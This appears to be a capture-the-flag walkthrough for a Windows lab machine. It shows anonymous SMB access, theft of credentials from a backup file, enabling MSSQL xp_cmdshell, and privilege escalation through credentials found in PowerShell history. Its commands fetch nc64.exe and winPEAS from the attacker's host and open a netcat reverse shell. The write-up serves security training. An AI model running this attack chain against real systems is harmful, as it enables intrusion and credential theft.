


# Archetype

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Protocols  
  MSSQL  
  SMB  
  Powershell  
  Reconnaissance  
  Remote Code Execution  
  Clear Text Credentials  
  Information Disclosure  
  Anon/Guest Access  

#### Description
  Work on a Windows machine to exploit a misconfiguration in MSSQL server. 

#### **Initial Enumeration**
  135/tcp msrpc        Microsoft RPC
  139/tcp netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp microsoft-ds Microsoft Server 2019 Standard 17763
  1433/tcp ms-sql-s    Microsoft SQL Server 2017

#### **SMB Enumeration**
  From the scripts that ran on nmap, we see that SMB and MSSQL are running. To find shares on the smb client we can send:
  ```
    smbclient -N -L \\\\{target_ip}\\

    -N : no password
    -L : allow you to look what services available on a server
  ```
  The following shares have '$' at the end indicating they require admin privileges or equivalent: ADMIN, C, IPC. The <code>backups</code> share does not require such privileges. So we can login by appending the share name to the end of the our command. 
  ```
    smb client -N \\\\{target_ip}\backups
  ```
  There is a file present in backups with a password and user_id for a SQL client. Now we need to figure out a way to login to MSSQL using these credentials on the target machine. 

#### **Impacket**
  Usually in the directory /impacket/examples/ we can find python scripts for several purposes. The one we will use for Microsoft SQL is <code>mssqlclient.py</code>.

  To connect to MSSQL using Impacket:
  ```
    python3 mssqlclient.py {username}@{target_ip} -windows-auth
  ```
  This will prompt a password that is also supplied in that document we extracted. 

#### **Inside MSSQL**
  <code>xp_cmdshell</code> is an extended stored procedure of MSSQL to spawn a Windows command shell, to check if it is activated we can write a query:

  ``` SQL
    EXEC xp_cmdshell 'net user';
  ```
  
  In order to activate it:
  ``` SQL
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    sp_configure;
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
  ```
  
  With <code>xp_cmdshell</code> working, we can try to establish a reverse shell. 

#### **Establishing Reverse Shell**
  To create a reverse shell environment:   
  &emsp;1. Start a python http server on port 80
  ```
    sudo python3 -m http.server 80
  ```

  &emsp;2. Start an ncat server on port 443
  ```
    sudo nc -lvnp 443
  ```

  At this point, as the current user on the SQL server we find that we do not have sufficient permissions to upload files. So we need to find a directory we have the permissions to upload to. In this case, it is the <code>Downloads</code> folder.

  &emsp;3. Execute Powershell payload over MSSQL 
  ``` SQL
    xp_cmdshell "powershell -c cd {path}\Downloads; wget http://{local_ip}:{port}/nc64.exe -outfile nc64.exe"
  ```
  *For this command, if you are using ports other than 80, be sure to specify in the wget link*

  To bind cmd.exe through netcat:
  ``` sql
    xp_cmdshell "powershell -c cd {path}\Downloads; .\nc64.exe -e cmd.exe {local_ip} 443"
  ```
  The reverse shell should appear on the nc terminal window.

#### **Privilege Escalation**
  With access to target machine through the reverse shell, we can use wget. To use <code>winPEAS</code>:
  ``` powershell
    wget http://{local_ip}/winPEASx64.exe -outfile winPEASx64.exe
  ```
  
  Apparently, the <code>SeImpersonatePrivilege</code> is interesting since it is vulnerable to something called the *juicy potato exploit*. However, the easiest way is not this. First, it is to check the terminal history, or in this case, the Powershell history. Which is located at <code>C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\<code>.

  Confirming there is a console history file, we can read it to find that there are credentials for administrator in it. 